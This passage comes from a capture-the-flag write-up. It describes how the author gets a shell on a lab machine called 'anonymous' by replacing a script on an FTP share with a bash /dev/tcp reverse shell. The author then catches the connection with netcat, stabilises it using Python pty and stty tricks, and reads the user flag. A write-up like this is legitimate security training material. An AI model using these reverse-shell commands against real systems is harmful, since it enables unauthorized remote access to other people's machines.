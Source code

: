 ## Getting a Shell

Well, that didn't work. Let's try another method for connecting back to my listener. I modified **clean.sh** to the following:
```
#!/bin/bash

sh -i >& /dev/tcp/<MY IP>/4444 0>&1
```
I then uploaded it back to the FTP server and started a listener on my system with `nc -nvlp 4444`:
```
listening on [any] 4444 ...
connect to [<MY IP>] from (UNKNOWN) [10.10.107.211] 33614
sh: 0: can't access tty; job control turned off
$ whoami
namelessone
$ hostname
anonymous
```
Success! Let's make this an interactive shell:
```
$ which python3
/usr/bin/python3
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
namelessone@anonymous:~$ export TERM=xterm
export TERM=xterm
namelessone@anonymous:~$ ^Z
zsh: suspended  nc -nvlp 4444

┌──(kali㉿kali)-[~/work]
└─$ stty raw -echo; fg

[1]  + continued  nc -nvlp 4444

namelessone@anonymous:~$
```

<br>

## Finding the user.txt flag

Now that I'm logged in and have a stable shell let's look for the **user.txt** flag. Running `pwd` shows I'm already in the currently logged in users home directory:
```
namelessone@anonymous:~$ pwd
/home/namelessone
```
`ls` shows:
```
namelessone@anonymous:~$ ls
pics  user.txt
```
There it is! `cat user.txt` gives us the **user.txt** flag:
```
namelessone@anonymous:~$ cat user.txt
<REDACTED>
```

